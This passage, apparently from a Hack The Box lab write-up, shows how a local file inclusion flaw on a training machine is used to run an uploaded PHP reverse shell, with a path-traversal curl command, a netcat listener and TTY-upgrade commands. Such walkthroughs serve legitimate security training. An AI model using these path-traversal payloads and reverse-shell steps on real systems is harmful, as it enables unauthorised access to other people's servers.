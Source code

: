 Let's start a netcat listener before navigating to the shell .
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;"><img width="60%"  src="media/image169.png"></div>

Next, we can use the LFI to access the reverse shell .

-   The *default TFTP root folde*r is **/var/lib/tftpboot.**

Navigating to
*http://10.10.10.55/?file=../../../../var/lib/tftpboot/rev.php*, due to
the inclusion of the PHP code by the vulnerable page, will results in
the PHP reverse shell  execution.
<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image170.png"></div>
<br>
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="80%"  src="media/image171.png"></div>

***We could have also used the “curl” tool as follow:***
``` shell 
kali@kali:~/HTB/StartingPoint/Included$ curl  http://10.10.10.55/?file=../../../../var/lib/tftpboot/rev.php
```

And we get the reverse shell :
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="80%"  src="media/image173.png"></div>

The low privilged www-data user isn't allowed to read user files, let’s
update the shell  as www-data
``` shell 
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="50%"  src="media/image174.png"></div>
